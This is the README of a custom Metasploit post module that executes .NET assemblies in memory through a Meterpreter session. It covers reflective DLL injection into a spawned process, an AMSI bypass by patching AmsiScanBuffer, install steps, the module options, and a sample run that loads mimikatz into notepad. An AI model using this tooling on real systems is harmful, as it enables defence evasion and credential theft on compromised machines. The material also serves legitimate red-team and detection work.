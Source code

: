 # Execute assembly via Meterpreter session

This is a custom Metasploit post module to executing a .NET Assembly from Meterpreter session

This project target

Windows 10 64bit<br />
.Net 4.0<br />
Metasploit Framework 5<br />

It spawn a process (or use an existing process providing pid) and use Reflective dll injection to load HostingCLRx64.dll needed to run .Net assembly
The unmanaged injected dll takes care of verifying if the process has already loaded the clr, and loads it if necessary. The version of the CLR to be loaded is determined by executing the parsing of the assembly provided searching for a known signature. Then run the assembly from memory.
Before loading the assembly in the context of the clr, Amsi is bypassed using the [AmsiScanBuffer patching technique](https://rastamouse.me/2018/10/amsiscanbuffer-bypass-part-1/)

You'll find details at [Execute assembly via Meterpreter session](https://b4rtik.blogspot.com/2018/12/execute-assembly-via-meterpreter-session.html) and [Execute assembly via Meterpreter session - Part 2](https://b4rtik.blogspot.com/2019/10/execute-assembly-via-meterpreter.html)

## Install

Create $HOME/.msf4/modules/post/windows/manage<br />
Copy execute-assembly.rb in $HOME/.msf4/modules/post/windows/manage/<br />
Create $HOME-METASPLOIT-DATADIR/execute-assembly<br />
Copy HostingCLRx64.dll in $HOME-METASPLOIT-DATADIR/post/execute-assembly/<br /> 

## Module options and execution

```
Module options (post/windows/manage/execute_assembly):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   AMSIBYPASS    true             yes       Enable Amsi bypass
   ARGUMENTS                      no        Command line arguments
   ASSEMBLY                       yes       Assembly file name
   ASSEMBLYPATH                   no        Assembly directory
   PID           0                no        Pid  to inject
   PROCESS       notepad.exe      no        Process to spawn
   SESSION                        yes       The session to run this module on.
   WAIT          10               no        Time in seconds to wait

```

AMSIBYPASS

Enable or Disable Amsi bypass. This parameter is necessary due to the technique used. It is possible that subsequent updates will make the bypass unstable which could result in a crash. By setting the parameter to false the module continues to work.

ARGUMENTS

Command line arguments. The signature of the Main method must match with the parameters that have been set in the module, for example:

If the property ARGUMENTS is set to "antani sblinda destra" the main method should be "static void main (string [] args)"<br />
If the property ARGUMENTS is set to "" the main method should be "static void main ()"

ASSEMBLY 

Assembly file name. This will be searched in ASSEMBLYPATH

ASSEMBLYPATH

Assembly directory where to serach ASSEMBLY

PID

Pid to inject. If different from 0 the module does not create a new process but uses the existing process identified by the PID parameter.

PROCESS

Process to spawn when PID is equal to 0.

SESSION

The session to run this module on. Must be meterpreter session

WAIT

Time in seconds to wait before starting to read the output.


```
msf post(windows/manage/execute-assembly) > exploit 

[*] Launching notepad to host CLR...
[+] Process 4708 launched.
[*] Reflectively injecting the Host DLL into 4708...
[*] Injecting Host into 4708...
[*] Host injected. Copy assembly into 4708...
[*] Assembly copied. Executing...
[*] Start reading output
[+] 
[+]   .#####.   mimikatz 2.1.1 (x64) built on Oct 22 2018 16:32:27
[+]  .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
[+]  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
[+]  ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
[+]  '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
[+]   '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/
[+] 
[+] mimikatz(powershell) # coffee
[+] 
[+]     ( (
[+]      ) )
[+]   .______.
[+]   |      |]
[+]   \      /
[+]    `----'
[+] 
[*] End output.
[+] Killing process 4708
[+] Execution finished.
[*] Post module execution completed
msf post(windows/manage/execute-assembly) >
```
